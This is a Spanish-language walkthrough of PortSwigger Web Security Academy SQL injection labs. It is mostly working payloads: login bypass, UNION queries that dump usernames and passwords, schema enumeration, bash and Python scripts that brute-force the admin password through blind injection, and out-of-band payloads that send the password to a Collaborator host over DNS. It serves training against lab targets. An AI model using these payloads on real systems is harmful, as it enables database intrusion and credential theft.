







SQL Injection
Inyección SQL: extracción de datos ocultos, bypass de login, ataques UNION, enumeración de base de datos, blind condicional, time-based y out-of-band.
Retrieving hidden data
Lab 1SQL injection in WHERE clause allowing retrieval of hidden data
https://LAB-ID.web-security-academy.net/filter?category=Gifts' or 1=1 --Subverting application logic
Lab 2SQL injection vulnerability allowing login bypass

Forma 1
username: administrator' --
password: cualquier textoForma 2
username: administrator' or 1=1 --
password: 'or 1=1 --Retrieving data from other tables — UNION attacks
Lab 3UNION attack, determining the number of columns

https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select null,null,null --Lab 4UNION attack, finding a column containing text

# Determinar número de columnas
https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select null,null,null --
# Identificar columna con texto
https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select null,'a',null --
# Mostrar el texto solicitado
https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select null,'p2Omtj',null --
Lab 5UNION attack, retrieving data from other tables
# Número de columnas
https://LAB-ID.web-security-academy.net/filter?category=Food+%26+Drink' union select null,null --
# Columnas con texto
https://LAB-ID.web-security-academy.net/filter?category=' union select 'a','a' --
# Extraer usuarios y contraseñas
https://LAB-ID.web-security-academy.net/filter?category=' union select username,password from users --Lab 6UNION attack, retrieving multiple values in a single column
# Solo la 2da columna acepta texto
# Concatenar usuario y contraseña con separador
https://LAB-ID.web-security-academy.net/filter?category=' union select null,username||'<->'||password from users --
# Resultado: administrator<->nqy8w4oj1tnda467u4lfExamining the database
Querying database type and version
Lab 7Querying database type and version on Oracle
# Oracle requiere tabla DUAL y usa v$version
https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select null,null from dual --
# Sacar versión
https://LAB-ID.web-security-academy.net/filter?category=Accessories' union select banner,null from v$version --Lab 8Querying database type and version on MySQL and Microsoft
Nota: En MySQL el comentario -- necesita un espacio después. Se agrega texto extra tras el espacio en la URL.
https://LAB-ID.web-security-academy.net/filter?category=Corporate+gifts' union select null,@@version -- algoListing the contents of the database
Lab 9Listing database contents on non-Oracle databases (PostgreSQL)
# Versión
https://LAB-ID.web-security-academy.net/filter?category=Gifts' union select 'a',version() --
# Listar tablas
https://LAB-ID.web-security-academy.net/filter?category=Gifts' union select TABLE_SCHEMA,TABLE_NAME from information_schema.tables --
# Listar columnas de tabla users
https://LAB-ID.web-security-academy.net/filter?category=Gifts' union select TABLE_NAME,COLUMN_NAME from information_schema.columns --
# Extraer credenciales (tabla y columnas con nombres aleatorios)
https://LAB-ID.web-security-academy.net/filter?category=Gifts' union select username_XXXX,password_XXXX from users_XXXX --Lab 10Listing database contents on Oracle
# Tablas en Oracle
https://LAB-ID.web-security-academy.net/filter?category=Pets' union select null,TABLE_NAME from all_tables --
# Columnas de la tabla USERS_XXXXX
https://LAB-ID.web-security-academy.net/filter?category=Pets' union select TABLE_NAME,COLUMN_NAME from all_tab_columns where TABLE_NAME='USERS_XXXXX' --
# Extraer credenciales
https://LAB-ID.web-security-academy.net/filter?category=Pets' union select USERNAME_XXXX,PASSWORD_XXXX from USERS_XXXX --Blind SQL injection vulnerabilities
Lab 11Blind SQL injection with conditional responses
Inyección en la cookie. Script bash para extraer la contraseña carácter a carácter buscando la cadena Welcome back! en la respuesta.
abc=$(echo {9..0} {a..z})
url="https://LAB-ID.web-security-academy.net/"
cookie='session=SESSION_ID; TrackingId=TRACKING_ID'
truestring="Welcome back!"
psw=""
for ((i=1;i<=20;i+=1)); do
for j in $abc; do
curl -i -s -k -b "$cookie' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),$i,1)='$j" $url | grep -o "$truestring" >/dev/null
if [ "$?" -eq 0 ]; then
psw=$psw$j
echo "found $j | password: $psw"
break
fi
done
done
echo $pswLab 12Blind SQL injection with conditional errors (Oracle)
# Verificar tabla users
42bE1...' and (SELECT case when (1=0) then to_char(1/0) else 'a' end from users where rownum=1)='a
# Verificar longitud de contraseña
42bE1...' and (SELECT case when (length(password)=20) then to_char(1/0) else 'a' end from users where username='administrator')='a
# Extraer carácter a carácter (generar error si es correcto)
42bE1...' and (SELECT case when (substr(password,1,1)='e') then to_char(1/0) else 'a' end from users where username='administrator')='aExploiting blind SQL injection by triggering time delays
Lab 13Blind SQL injection with time delays
# Cookie TrackingId — PostgreSQL
QN8d4azscNQM5K9F'|| pg_sleep(10) --Lab 14Blind SQL injection with time delays and information retrieval
from pwn import log
import requests
abc = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = "https://LAB-ID.web-security-academy.net/"
s = requests.Session()
password = ""
p1 = log.progress("Password")
p2 = log.progress("Trying")
for p in range(20):
for a in abc:
r = s.get(url, cookies={
"TrackingId": "ID'%3B SELECT CASE WHEN ('"+a+"'=SUBSTRING(password,"+str(p+1)+",1)) THEN pg_sleep(3) ELSE pg_sleep(0) END from users where username='administrator'--",
"session": "SESSION_ID"
})
p2.status("pos: "+ str(p+1)+" letter: "+str(a)+" time: "+str(r.elapsed.total_seconds()))
if r.elapsed.total_seconds() > 3:
password += a
break
p1.status(password)
p1.success(password)Exploiting blind SQL injection using out-of-band (OAST) techniques
Lab 15Blind SQL injection with out-of-band interaction
Interceptar la consulta con Burp Suite y enviar al Repeater. Abrir el Burp Collaborator para obtener el subdominio. Modificar la cookie TrackingId con la inyección codificada con Ctrl+U.

' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://COLLABORATOR-SUBDOMAIN.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--Versión URL-encoded para la cookie:
' UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

Lab 16Blind SQL injection with out-of-band data exfiltration
Igual que el anterior pero exfiltrando la contraseña del administrador como subdominio DNS.
'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+where+username%3d'administrator')||'.COLLABORATOR.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual --